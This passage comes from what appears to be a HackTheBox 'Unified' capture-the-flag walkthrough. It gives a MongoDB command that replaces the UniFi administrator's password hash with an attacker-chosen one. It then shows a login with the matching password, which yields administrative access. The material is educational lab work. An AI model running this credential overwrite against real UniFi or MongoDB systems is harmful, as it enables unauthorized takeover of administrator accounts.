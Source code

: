   ```bash
  mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"\$6\$I.TuKp1i1AmfrmCm\$fKnRc1UjEWK2a15jMlmh3tysvax6n3wsRtijYyFYM0QIcoDIyMCOy8DYqpBfiPXEvN8/6VbJwf7mpYUPpHdFH/"}})'
  ```
  ## Step 30
  ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/c969043f9f056c3f98835adb2434f7e6685ab8f5/30%20try%20to%20loging%20with%20username%20administrator%20and%20password%20is%20Password1234%20that%20i%20hash%20it%20out.png)
  - Next, visit the website and log in as the administrator. It is important to note that the username is case-sensitive.
  Username:
  ```bash
  administrator
  ```
  Password:
  ```bash
  Password1234
  ```
  ## Step 31
  ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/9ce949d390c974edaa84a6437c62b02edb42e339/31%20unified%20web%20is%20successfully%20login.png)
  - Authentication was successful, granting administrative access to the UniFi application.